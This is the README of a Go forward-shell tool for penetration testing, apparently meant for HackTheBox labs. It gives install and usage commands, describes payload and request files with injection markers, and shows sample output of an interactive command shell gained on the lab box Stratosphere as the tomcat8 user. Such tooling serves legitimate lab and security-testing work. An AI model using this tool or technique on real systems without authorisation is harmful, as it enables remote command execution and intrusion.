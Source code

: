 # go-forward-shell

This shell was inspired by IppSecs [python forward-shell](https://github.com/IppSec/forward-shell) technique. I just wanted it to be a little more versatile. Also I wanted to pull the custom part away from the source code into separate files.

## Usage

Basically you can just `go run . -h` to see the help page and use the binary.

You could also build and install it after cloning, like:

```bash
go build .
go install .
```

Then you can run `./gofws -h`.

```bash
> ./gofws -h
Usage of ./gofws:
  -interval int
    	Query interval to use, default [1] (default 1)
  -payload string
    	Optional: Surrounding payload, hook with @@cmd@@, default empty
  -proxy string
    	Optional: Proxy to use [http://127.0.0.1:8080], default empty
  -req string
    	Path to request file, hook with @@payload@@, default empty
```

You could also just directly get and install it like:

```bash
go get -u github.com/patrickhener/gofws
go install github.com/patrickhener/gofws@latest
```

## Config

There are two example files, which will work for the box `Stratosphere` of HackTheBox. If you want to understand what the tool does I recommend watching IppSecs video on that topic [IppSec doing Stratosphere](https://www.youtube.com/watch?v=uMwcJQcUnmY).

### payload.txt
The payload file holds the payload which is sent to the server. It has a special marker `@@cmd@@` where the tool will add the payload content.

### request.http
This is a raw request taken from Burp Suite where I insert the payload at the `Content-Type`-Header using the special marker `@@payload@@`. This will be processed by the tool.

## Example output
Again this example output was taken from using the tool against the box `Stratosphere` of HackTheBox.

```bash
> ./gofws -req ./request.http -payload ./payload.txt -proxy http://localhost:8080
[*] Session ID: 45756
[*] Setting up fifo shell on target
[*] Setting up read thread
go-forward-shell$ id
go-forward-shell$ uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

ls -la
go-forward-shell$ total 24
drwxr-xr-x  5 root    root    4096 Aug  2 06:57 .
drwxr-xr-x 42 root    root    4096 Oct  3  2017 ..
lrwxrwxrwx  1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r--  1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x  2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx  1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Aug  2 06:57 policy
drwxrwxr-x  4 tomcat8 tomcat8 4096 Feb 10  2018 webapps
lrwxrwxrwx  1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8

upgrade
tomcat8@stratosphere:~$
exit
Exiting
```

## Special commands
`exit` will gracefully exit the shell and `upgrade` will do the python3 pty trick.